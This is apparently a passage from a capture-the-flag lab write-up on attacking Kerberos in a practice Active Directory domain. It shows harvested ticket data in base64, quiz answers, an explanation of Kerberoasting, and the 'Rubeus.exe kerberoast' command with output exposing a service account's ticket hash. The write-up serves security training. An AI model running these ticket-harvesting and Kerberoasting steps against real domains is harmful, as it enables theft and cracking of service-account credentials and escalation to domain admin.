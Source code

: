 ```shell
      fYpWx/2qGWymXOhXtvrn6HTGJ2jC8B1ShyCxpzpR7aYz1wj/NIIoYv/ch3K33AGe6vTlaFoR/pWQNj1W
      +uhof3qB5T4eP2jjiarXsmgqMKpvDebWmwCAMIK1nrkEv19S6/o+Quv/D5+3pv2VWz/XHjkbzFLjVm0M
      2ScYtgAMxqACLQWbZSdIW6YrfJL0o3BBQDIRBABfaT9CTwMAkfzMyIDIvo/2LswkGIjnkGy+UQkxv71e
      pirudE+ryy3i+bxpYfDR3M1yEXlsP2GwN/aSEJVWdP0T1jje778x1KyJGVT4wcVb+ruGlGSbC1+QXqAn
      iq06kEXPW4Q5sVdn90VW/45K8moA3S/wABp4gfBDU7h4gSHw28gYmCMX6LruWIQmF6OB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIKqFLPWCNf605+d6eE9fmtjErMl9YpxQCLLP
      guIJRP88oRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIyMDYyMTA2MDI0OFqmERgPMjAyMjA2MjExNjAyNDhapxEYDzIwMjIwNjI4MDYwMjQ4WqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs
````

##   Answer the questions below

**Which domain admin do we get a ticket for when harvesting tickets?**

- Administrator

**Which domain controller do we get a ticket for when harvesting tickets?**

- CONTROLLER-1

* * * 

## Task 4 - Kerberoasting w/ Rubeus & Impacket 

**Notes**: Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts use a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

1. ``cd Downloads`` Navigate to Rubeus
2. ``Rubeus.exe kerberoast``

```shell
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts. 
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts. 

[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 2


[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT 
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca 
```